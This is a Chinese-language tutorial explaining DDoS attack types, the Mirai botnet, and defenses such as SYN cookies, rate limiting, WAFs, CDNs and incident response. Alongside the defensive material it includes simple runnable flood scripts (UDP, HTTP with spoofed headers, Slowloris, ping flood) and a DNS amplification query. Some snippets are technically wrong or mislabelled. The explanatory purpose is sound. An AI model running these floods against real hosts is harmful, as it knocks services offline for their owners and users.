


# DDOS攻击类型与防护

2016年10月，美国东海岸经历了一场史无前例的网络瘫痪。

Twitter、Reddit、Netflix、PayPal...数十个主流网站全部无法访问。

造成这一切的，是一次峰值达到1.2Tbps的DDOS攻击。而发起这次攻击的，竟然是一群被黑客控制的**摄像头和路由器**。

这就是**Mirai僵尸网络**——它感染了数十万物联网设备，把它们变成了攻击傀儡，对Dyn DNS服务器发起了疯狂攻击。

DDOS（分布式拒绝服务攻击）就是这样一种"简单粗暴"却极其有效的攻击方式。它不需要偷数据，不需要入侵系统，只需要让你的服务"忙不过来"。

今天这篇文章，带你彻底理解DDOS的攻击原理和防护方案。

## 从一个问题开始

想象你开了一家奶茶店，正常情况下每分钟能接待10个顾客。

有一天，一群人冲进你的店，不点奶茶，就站在店里聊天、占座位、堵门口。真正的顾客进不来，服务员忙得团团转却做不成生意。

这就是DDOS的本质：**用大量无效请求占用资源，让正常用户无法访问服务**。

而"分布式"意味着攻击来自世界各地，不是一个人在战斗。

## 【直观类比】

### DDOS就像"双十一抢购"

每年的双十一，淘宝服务器都会面临海量请求。官方会提前扩容、限流、熔断...

DDOS攻击就是人为制造一个"365天双十一"。攻击者用各种手段把请求量拉到服务器承受不了的程度，然后——崩了。

### 攻击者为什么不用自己的电脑？

用自己的电脑发起攻击？分分钟被封IP。

攻击者要做的是：**控制大量"肉鸡"（被入侵的电脑/服务器/物联网设备），组成僵尸网络，协同作战**。

```
攻击者 → 控制中心 → 僵尸网络
                       ↓
              [肉鸡1] [肉鸡2] [肉鸡3] ...
                       ↓
                  同时发起请求
                       ↓
                 目标服务器崩溃
```

## 核心原理

### 七种DDOS攻击类型

#### 1. SYN Flood（SYN洪泛）

利用TCP三次握手的漏洞：



正常情况下，服务器收到SYN后等待ACK。如果攻击者发送大量SYN但不完成握手，服务器的半连接队列就会被打满。

```python
# SYN Flood示意代码
import socket

target = "example.com"
port = 80

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((target, port))

# 发送SYN（实际是用raw socket发送SYN包）
while True:
    sock.send(b'X' * 1024)  # 发送大量数据
```

#### 2. UDP Flood（UDP洪泛）

直接向目标发送大量UDP数据包：

```python
import socket

target = "example.com"
port = 80

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

while True:
    sock.sendto(b'X' * 65500, (target, port))
```

如果目标没有配置UDP流量过滤，会被UDP数据包淹没。

#### 3. HTTP Flood（HTTP洪泛）

发送大量看似正常的HTTP请求：

```python
import requests
import random

target = "http://example.com/api/endpoint"

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64)',
    'Accept': 'text/html,application/json',
    'X-Forwarded-For': f'1.2.{random.randint(0,255)}.{random.randint(1,254)}'
}

while True:
    requests.get(target, headers=headers)
```

这些请求看起来完全正常，只是数量巨大。

#### 4. DNS Amplification（DNS放大攻击）

利用DNS服务器的响应远大于请求的特性：

```
攻击者 → DNS服务器: "查询某个大域名的所有记录" (40字节)
DNS服务器 → 目标: "返回大域名所有记录" (4000字节)

放大倍数: 100倍
```

攻击者发送DNS查询请求，源IP伪造成目标地址，DNS服务器返回大量数据给目标。

```python
# DNS查询请求
query = (
    b'\x12\x34'  # Transaction ID
    b'\x01\x00'  # Flags: standard query
    b'\x00\x01'  # Questions: 1
    b'\x00\x00'  # Answer RRs: 0
    b'\x00\x00'  # Authority RRs: 0
    b'\x00\x00'  # Additional RRs: 0
    + b'\x06google\x03com\x00'  # Domain
    + b'\x00\xff'  # Type: ANY (请求所有记录)
    + b'\x00\x01'  # Class: IN
)
```

#### 5. NTP Amplification（NTP放大攻击）

利用NTP（网络时间协议）服务器的monlist命令：

```
NTP monlist返回：最后600个连接服务器的列表
请求大小：约234字节
响应大小：超过6万字节

放大倍数：200-300倍
```

#### 6. ICMP Flood（ICMP洪泛）

发送大量ICMP echo请求（ping）：

```bash
# 简单的ping flood
ping -f target.com
```

`-f`参数表示无限制发送ping包。

#### 7. Application Layer Attack（应用层攻击）

针对特定应用层协议的攻击：

```
Slowloris：保持HTTP连接打开，发送不完整请求
R.U.D.Y.：POST请求，发送极慢的数据
```

```python
# Slowloris示意
import socket
import time

headers = (
    b"POST / HTTP/1.1\r\n"
    b"Host: target.com\r\n"
    b"User-Agent: Mozilla/4.0\r\n"
    b"Content-Length: 10000000\r\n"
)

for i in range(500):  # 保持500个连接
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("target.com", 80))
    s.send(headers)
    time.sleep(15)  # 每15秒发送一个换行，保持连接
```

### 僵尸网络：攻击者的武器库

Mirai事件让我们看到了物联网设备的威力：

```python
# Mirai的扫描逻辑（简化）
def scan_and_infect():
    # 随机扫描IP地址
    for ip in random_ip_range():
        # 尝试默认密码登录
        if try_default_credentials(ip):
            # 下载恶意程序
            download_malware(ip)
            # 加入僵尸网络
            join_botnet(ip)
```

Mirai感染了超过60万物联网设备，包括摄像头、路由器、DVR...

## 边界与特例

### 攻击规模速查

| 规模 | 流量 | 常见类型 | 防护难度 |
| --- | --- | --- | --- |
| 小型 | `<` 1Gbps | SYN Flood | 易防御 |
| 中型 | 1-10Gbps | UDP Flood | 需要专业设备 |
| 大型 | 10-100Gbps | Amplification | 需要云清洗 |
| 超大型 | `>` 100Gbps | 多向量混合 | 极度困难 |

### 新兴攻击向量

#### Memcached放大攻击

2018年GitHub遭受了1.35Tbps的攻击，就是利用了Memcached：

```
请求：约200字节
响应：可以超过100KB

放大倍数：理论上可达51200倍！
```

#### HTTP/2 Rapid Reset

2023年发现的新型攻击方式，利用HTTP/2的多路复用特性：

```python
# 发送大量RST_STREAM帧，取消请求但不释放资源
for stream_id in range(1000000):
    send_http2_rst(stream_id)
```

## 常见误区

### 误区1：DDOS攻击都是大流量

不一定。有些攻击不需要很大流量就能造成伤害：

```
Slowloris：用很少的带宽就能让Apache服务器瘫痪
应用层攻击：每秒几百个请求就够了
```

### 误区2：买了防火墙就安全了

不一定。防火墙本身也可能成为攻击目标：

```python
# 防火墙遇到的挑战
if packet_rate > firewall_capacity:
    # 防火墙先崩溃
    firewall_down()
    # 服务器暴露
```

### 误区3：DDOS只针对大公司

错误。中小网站反而更容易被攻击：

- 小站点没钱买高防服务
- 可能得罪了某个黑客
- 被当作练手目标

### 误区4：云服务就能防DDOS

云服务商的DDOS防护有**流量阈值**：

```
基础防护：5Gbps
付费清洗：100Gbps
超大攻击：需要单独谈
```

## 防护方案

### 1. 网络层防护

#### 启用SYN Cookie

```nginx
# Nginx配置
server {
    tcp_nodelay on;
    tcp_nopush on;
}
```

```python
# Linux内核参数
echo 1 > /proc/sys/net/ipv4/tcp_syncookies
echo 2048 > /proc/sys/net/ipv4/tcp_max_syn_backlog
```

#### 限制连接速率

```bash
# iptables限制
iptables -A INPUT -p tcp --dport 80 -m limit --limit 100/s --limit-burst 1000 -j ACCEPT
iptables -A INPUT -p tcp --dport 80 -j DROP
```

### 2. 应用层防护

#### 验证码（CAPTCHA）

```python
# 简单限流中间件
class RateLimitMiddleware:
    def __init__(self, max_requests=100, window=60):
        self.cache = {}
        self.max_requests = max_requests
        self.window = window
    
    def is_allowed(self, ip):
        now = time.time()
        if ip not in self.cache:
            self.cache[ip] = []
        
        # 清理过期记录
        self.cache[ip] = [t for t in self.cache[ip] if now - t < self.window]
        
        if len(self.cache[ip]) >= self.max_requests:
            return False
        
        self.cache[ip].append(now)
        return True
```

#### Web应用防火墙（WAF）

```nginx
# ModSecurity规则
SecRule REQUEST_URI "@rx (\bunion\b|\bselect\b|\bdrop\b)" \
    "id:1001,phase:1,deny,status:403,msg:'SQL Injection'"
```

### 3. 专业DDOS防护服务

| 服务商 | 防护能力 | 特点 |
| --- | --- | --- |
| Cloudflare | `>` 1Tbps | 广泛节点，免费版有限 |
| Akamai | `>` 10Tbps | 企业级，价格昂贵 |
| AWS Shield | `>` 10Tbps | 与AWS深度集成 |
| 阿里云DDoS防护 | 按需弹性 | 国内节点多 |

### 4. 架构层面防护



#### 多地接入

```
用户请求 → DNS智能解析 → 就近接入最近的CDN节点
                            ↓
                     CDN节点过滤清洗
                            ↓
                      正常流量回源
```

### 5. 应急预案

```python
# DDOS应急响应剧本
class DDOSResponse:
    def __init__(self):
        self.stages = {
            'detection': self.detect,
            'analysis': self.analyze,
            'mitigation': self.mitigate,
            'communication': self.communicate,
            'post_incident': self.post_incident
        }
    
    def run(self):
        # 1. 检测异常流量
        self.detect()
        
        # 2. 分析攻击类型和规模
        attack_info = self.analyze()
        
        # 3. 启动应急响应
        if attack_info['severity'] == 'high':
            self.enable_under_attack_mode()
        
        # 4. 通知相关方
        self.communicate()
        
        # 5. 复盘改进
        self.post_incident()
    
    def detect(self):
        # 监控指标异常
        pass
    
    def analyze(self):
        # 分析攻击向量
        return {
            'type': 'http_flood',
            'peak_gbps': 50,
            'severity': 'high'
        }
```

## 记忆技巧

### 口诀

> **DDOS攻击很简单，流量淹没你网站**
> **SYN Flood玩握手，UDP Flood直接灌**
> **DNS放大一百倍，僵尸网络很危险**
> **防火墙配限流，CDN清洗最保险**
> **应急预案提前定，发现问题心不慌**

### 攻击类型速查

| 类型 | 协议层 | 攻击方式 | 防护重点 |
| --- | --- | --- | --- |
| SYN Flood | 传输层 | 半连接占满 | SYN Cookie |
| UDP Flood | 传输层 | UDP包洪泛 | 流量过滤 |
| HTTP Flood | 应用层 | HTTP请求洪泛 | 验证码/WAF |
| DNS Amplification | 应用层 | DNS响应放大 | DNS限速 |
| NTP Amplification | 应用层 | NTP响应放大 | NTP版本升级 |
| Slowloris | 应用层 | 慢连接 | 连接超时配置 |
| Memcached Amplification | 应用层 | Memcached响应放大 | 禁用UDP |

## 实战检验

### 检验1：识别DDOS攻击

```bash
# 查看网络连接异常
netstat -an | grep ESTABLISHED | wc -l

# 查看SYN连接异常
netstat -an | grep SYN_RECV | wc -l

# 查看带宽占用
iftop -i eth0

# 查看每秒包数
tcpdump -i eth0 -c 1000
```

### 检验2：评估防护能力

回答以下问题：

1. 你的服务器能承受多少Gbps流量？
2. 你的防火墙能处理多少并发连接？
3. 你的云服务商的基础防护是多少Gbps？
4. 你的CDN覆盖了多少节点？
5. 你有DDOS应急预案吗？

### 检验3：架构评审

评估以下架构的DDOS防护能力：

```
用户 → CDN → WAF → ALB → ECS × 3 → RDS
```

问题：
- CDN能挡住多少攻击？
- WAF能识别什么类型的攻击？
- ALB有限流吗？
- 数据库能承受多少查询？

【面试官心理】

面试官问DDOS，其实是在测试你对"网络安全防护"的全局理解。知道攻击原理是60分，知道防护方案是80分，能设计完整防护架构是90分，如果还能提到应急响应和成本权衡，那就是P7的水平了。

---

## 延伸阅读

- [TLS握手流程](/cs/security/tls-handshake) - 了解HTTPS如何保护通信
- [XSS攻击与防护](/cs/security/xss) - 了解攻击如何被组合使用
- [CSRF攻击与防护](/cs/security/csrf) - 了解会话安全的重要性
